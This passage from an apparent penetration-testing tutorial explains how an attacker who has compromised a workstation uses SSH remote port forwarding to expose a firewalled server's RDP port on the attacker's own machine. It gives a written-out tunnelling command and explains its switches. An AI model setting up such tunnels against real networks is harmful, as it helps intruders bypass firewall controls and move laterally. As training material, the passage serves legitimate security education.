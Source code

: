 In our example, let's assume that firewall policies block the  attacker's machine from directly accessing port 3389 on the server. If  the attacker has previously compromised PC-1 and, in turn, PC-1 has  access to port 3389 of the server, it can be used to pivot to port 3389  using remote port forwarding from PC-1. **Remote port forwarding** allows you to take a reachable port from the SSH client (in this case, PC-1) and project it into a **remote** SSH server (the attacker's machine).

As a result, a port will be opened in the attacker's machine that can be used to connect back to port 3389 in the server through the SSH  tunnel. PC-1 will, in turn, proxy the connection so that the server will see all the traffic as if it was coming from PC-1:

![SSH remote port forwarding](assets/49401a0687c38a1ce78fdd5852aca5a7.png)

A valid question that might pop up by this point is why we need port forwarding if we have compromised PC-1 and can run an RDP session directly from there. The answer is simple: in a situation where we only have console access to PC-1, we won't be able to use any RDP  client as we don't have a GUI. By making the port available to your  attacker's machine, you can use a Linux RDP client to connect. Similar  situations arise when you want to run an exploit against a port that  can't be reached directly, as your exploit may require a specific  scripting language that may not always be available at machines you  compromise along the way.

Referring to the previous image, to forward port 3389 on the server  back to our attacker's machine, we can use the following command on  PC-1:

- **PC1: Command Prompt**        

```shell-session
C:\> ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N        
```

This will establish an SSH session from PC-1 to `1.1.1.1` (Attacker PC) using the `tunneluser` user.

Since the `tunneluser` isn't allowed to run a shell on the Attacker PC, we need to run the `ssh` command with the `-N` switch to prevent the client from requesting one, or the connection will exit immediately. The `-R` switch is used to request a remote port forward, and the syntax  requires us first to indicate the port we will be opening at the SSH  server (3389), followed by a colon and then the IP and port of the  socket we'll be forwarding (3.3.3.3:3389). Notice that the port numbers  don't need to match, although they do in this example.

The command itself won't output anything, but the tunnel will depend  on the command to be running. Whenever we want, we can close the tunnel  by pressing CTRL+C as with any other command.

